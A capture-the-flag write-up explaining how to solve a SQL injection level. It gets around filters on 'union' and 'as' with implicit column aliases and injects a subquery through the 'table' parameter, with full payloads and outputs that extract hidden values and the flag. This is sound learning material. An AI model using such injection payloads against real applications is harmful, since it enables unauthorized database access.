

Another SQLi challenge :D

We can see it filters some strings, and also we can see this interesting code:
```php
$query = 'SELECT id,username FROM ' . $table . ' WHERE id = ' . $id;
//$query = 'SELECT id,username,enemy FROM ' . $table . ' WHERE id = ' . $id;
```

So, it means we need to somehow achieve the `enemy`, however, we can't use `union`.
Also, the enemy is found only in the `costume` table, and not on `civil` table..

If we'll try to give something similar to what we've done in [level07](./level07.md), it won't work, something like this:
`(select 2 as id,4,enemy as username from costume where id between 1 and 1)`
Because we can't use `as`.

However, we don't have to use `as`!! when you write: `select 2 id from users`, it translates to `select 2 as id from users`

So, our input will be:
`(select 1337 id,1337,enemy username from costume where id between 5 and 5)`

and the query:
`user_id=1337&table=(select 1337 id,1337,enemy username from costume where id between 4 and 4)&submit=Submit`

```We get the table:
id   |   1337   |   username
1337     1337       enemy_name?
```

and by playing with the `between 4 and 4`, we can scan the user_ID's.

#### user_id = 4
* input
> user_id=1337&table=(select 1337 id,1337,enemy username from costume where id between 4 and 4)&submit=Submit
* output:
> Lex Luthor

#### user_id = 3
* input
> user_id=1337&table=(select 1337 id,1337,enemy username from costume where id between 3 and 3)&submit=Submit
* output:
> The Joker

#### user_id = 2
* input
> user_id=1337&table=(select 1337 id,1337,enemy username from costume where id between 2 and 2)&submit=Submit
* output:
> Green Goblin

#### user_id = 1
* input
> user_id=1337&table=(select 1337 id,1337,enemy username from costume where id between 1 and 1)&submit=Submit
* output:
> WEBSEC{Who_needs_AS_anyway_when_you_have_sqlite}



**Flag:** ***`WEBSEC{Who_needs_AS_anyway_when_you_have_sqlite}`*** 
